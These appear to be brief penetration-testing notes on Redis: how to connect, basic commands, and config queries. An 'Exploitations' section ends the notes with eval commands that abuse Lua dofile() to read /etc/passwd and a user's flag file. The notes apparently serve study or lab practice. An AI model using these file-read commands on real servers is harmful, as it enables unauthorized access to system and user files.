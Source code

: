 # Redis
## Introduction to Redis
Key value pair database

(nil) mean does not exist

## Connecting
```bash
redis-cli -h $IP -p $port -a $password -n $databasenumber
```

## Concepts
```redis
info		# server info
```
Keyspace section provide the main dictionary of each database

## Useful Commands
```
select $database/$table
keys * # all keys
get $keyname

# CMD KEY
config get * # retrieve current configuration of the database
config get dir # windows directory command

get user	
set user


```

## Exploitations

```redis
eval dofile('/etc/passwd') 0 # enumerating files, with lua script dofile()
eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0 # enumerating files, with lua script dofile()
```